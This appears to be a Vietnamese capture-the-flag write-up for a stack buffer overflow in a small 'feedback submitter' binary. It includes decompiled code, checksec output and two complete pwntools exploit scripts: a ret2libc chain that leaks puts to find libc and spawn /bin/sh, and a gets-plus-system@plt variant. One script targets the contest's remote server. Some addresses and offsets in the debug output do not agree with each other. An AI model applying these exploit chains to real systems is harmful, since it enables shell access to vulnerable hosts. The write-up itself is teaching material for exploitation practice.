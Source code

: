 # ida
```c
int date()
{
  return system("/bin/date");
}

__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Tell us some review about our program: ");
  fflush(_bss_start);
  return gets(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
# checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

#### thông qua ida và checksec, ta có thể đoán được là ret2libc
> hàm system bài này không có sẵn trong file, có trong file libc trên sever

# ret2libc
> do trong chương trình có hàm puts nên ta có put@got và put@plt dễ dành leak được libc và tính địa chỉ base.
```python
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
log.info('leak libc: ' + hex(leak_libc))
```
chạy script trên sever ta nhận được ```leak libc: 0x7f1dec78aed0``` (ở đây 3kí tự cuối ```ed0``` là không đổi), tìm file libc trên mạng t có 1 file

tiếp đến ta pwninit nhưng... có vẻ như nó không tự động patched với nhau.
```
bin: ./exe

copying ./exe to ./exe_patched
running patchelf on ./exe_patched
```
nhưng không sao, ta sẽ tính tay.
___
Đầu tiên ta sẽ tính địa chỉ base libc 

![image](https://user-images.githubusercontent.com/111769169/223641357-b1530364-a813-4f70-a4be-a797fe7975bb.png)

ta sẽ lấy địa chỉ nhỏ nhất của libc là ```0x007ffff7d8d000``` base và tính offset từ địa chỉ leak đến địa
```python
libc.address = leak_libc - 528080
log.info('base libc: ' + hex(libc.address))
```
tiếp đó debug động, ta sẽ kiểm tra địa chỉ của chuỗi ```/bin/sh``` và hàm ```symtem``` là:

```
[*] /bin/sh: 0x7ff7752d1dd0
[*] base libc: 0x7ff775277f80
```
và tìm chuỗi /bin/sh ở địa chỉ ```0x7ff775401698 - 0x7ff77540169f  →   "/bin/sh"``` và hàm symtem ở ```$1 = (int (*)(const char *)) 0x7ff775279d60 <__libc_system>```
tính offset của chuỗi /bin/sh: 1243336 và system: 7648
kiểm tra lại ta thấy đúng rồi là oke

```
0x007ffdf36f7710│+0x0050: 0x00000000400703  →  <__libc_csu_init+99> pop rdi
0x007ffdf36f7718│+0x0058: 0x007feff7d40698  →  0x68732f6e69622f ("/bin/sh"?)
0x007ffdf36f7720│+0x0060: 0x007feff7bb8d60  →  <system+0> endbr64
```

do khi chạy ta có lỗi xmm1 nên ta sẽ gọi lệnh ret để +8 vào stack

<details> <summary> script </summary>

```python
from pwn import *

# r = process("./exe_patched")
r = remote("execution.ctf.pragyan.org" , 12386)
exe = ELF("./exe_patched")
libc = ELF("./musl_1.1.24-1_amd64.so")
# gdb.attach(r, gdbscript='''
#            b*vuln+50
#            c
#            ''')
input()

pop_rdi = 0x0000000000400703
#################
### leak libc ###
#################
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
libc.address = leak_libc - 528080
log.info('leak libc: ' + hex(leak_libc))
log.info('base libc: ' + hex(libc.address))

#####################
### check address ###
#####################
log.info("/bin/sh: " + hex(next(libc.search(b"/bin/sh"))))
log.info('system: ' + hex(libc.sym['system']))


payload = b'a'*72
payload += p64(0x00000000004004c9)      #ret
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')) + 1243336)
payload += p64(libc.sym['system'] + 7648)
r.sendlineafter(b"our program: ", payload)
r.interactive()
```

</details>

# Cách 2  


# cách 2:
> do người ta có hàm system trong file rồi nên ta có thể nhảy vào hàm system lun

<details> <summary> script </summary> 

```python
context.binary = exe

pop_rdi = 0x0000000000400703

payload = b'A'*72
payload += flat(
    pop_rdi, 0x00000000601a00,      # pop_rdi và mình dùng hàm gets để ghi vào vùng nhớ được phép ghi 0x0060100 để lưu /bin/sh
    exe.plt['gets'],
    pop_rdi, 0x00000000601a00,      # pop_rdi và trỏ đến địa chỉ lưu /bin/sh và thực thi
    exe.plt['system'],
    )
r.sendlineafter(b"our program: ", payload)
r.sendline(b'/bin/sh\0')
```

</details>